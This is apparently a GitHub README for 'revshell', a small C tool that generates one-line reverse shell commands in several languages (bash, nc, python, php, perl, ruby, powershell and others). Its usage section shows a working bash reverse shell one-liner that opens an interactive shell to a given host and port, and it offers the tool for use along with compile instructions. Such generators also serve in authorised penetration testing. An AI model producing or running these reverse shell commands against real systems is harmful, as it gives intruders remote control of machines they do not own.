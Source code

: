 # revshell
Reverse shell generator with simple one-line commands.

## Usage

```
▶ ./revshell

    Produced by Nosferatuvjr, feel free to use it, but please credit me.
                            v0.1

Usage: revshell.c <host> <port> <number of payload

Payload list:
1. bash
2. nc
3. rm /tmp/f
4. python
5. php
6. perl
7. ruby
8. powershell
9. zsh

```

```
▶ ./revshell 192.168.0.1 1234 1

- bash -i >& /dev/tcp/192.168.0.1/1234 0>&1
```

## Compile

Compile it yourself or use pre-compiled binary from releases section.

```
gcc revshell.c -o revshell
```
### Fale comigo em :
<p align="left">
  <a href="https://github.com/Nosferatuvjr" target="_blank"><img src="https://img.shields.io/badge/Github-Nosferatuvjr-green?style=for-the-badge&logo=github"></a>
  <a href="https://www.instagram.com/vivald0x6f" target="_blank"><img src="https://img.shields.io/badge/IG-%40vivald0x6f-red?style=for-the-badge&logo=instagram"></a>
</p>
